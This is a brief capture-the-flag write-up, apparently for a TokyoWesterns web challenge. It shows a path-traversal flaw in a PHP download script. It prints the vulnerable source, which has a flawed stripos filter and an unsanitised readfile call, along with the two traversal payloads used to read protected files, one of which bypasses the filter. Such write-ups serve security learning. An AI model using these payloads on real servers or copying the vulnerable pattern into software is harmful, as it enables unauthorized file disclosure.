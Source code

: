 Vulnerability : download.php?f=951470281beb8a490a941ac73bd10953

** 1- Download "download.php" ** <br>
download.php?f=../download.php
```php
// TWCTF{then_can_y0u_read_file_list?}
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
header("Content-Type: application/octet-stream");
header("Content-Disposition: attachment; filename='$filename'");
readfile("uploads/$filename");
```
** 2- Read "file_list.php" **<br>

download.php?f=file_list../../file_list.php


